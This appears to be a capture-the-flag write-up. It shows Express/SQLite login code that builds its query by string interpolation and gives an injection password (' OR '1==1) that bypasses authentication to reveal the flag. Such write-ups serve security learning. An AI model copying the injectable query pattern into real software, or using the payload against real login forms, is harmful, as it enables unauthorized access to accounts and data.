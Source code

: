 ```js
        res.end();
        return;
    }
    
    if (result) {
        res.json({ success: true, flag: process.env.FLAG });
        res.end();
        return;
    }

    res.json({ success: false, error: "Incorrect username or password." });
});

app.use(express.static(path.join(__dirname, '/public')));

app.listen(process.env.PORT || 3000);

// init database
db.prepare(`CREATE TABLE IF NOT EXISTS users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT,
    password TEXT);`).run();

db.prepare(`INSERT INTO 
    users (username, password)
    VALUES ('${process.env.USERNAME}', '${process.env.PASSWORD}');`).run();

```

In the post request to api/flag, our username and password input are fed directly into the database, which is sqlite-based. 

```js
   let result;
    try {
        result = db.prepare(`SELECT * FROM users 
            WHERE username = '${username}'
            AND password = '${password}';`).get();
    } catch (error) {
        res.json({ success: false, error: "There was a problem." });
        res.end();
        return;
    }
    
    if (result) {
        res.json({ success: true, flag: process.env.FLAG });
        res.end();
        return;
    }
```

Using the following credentials:
```
username: admin
password:  ' OR '1==1
```
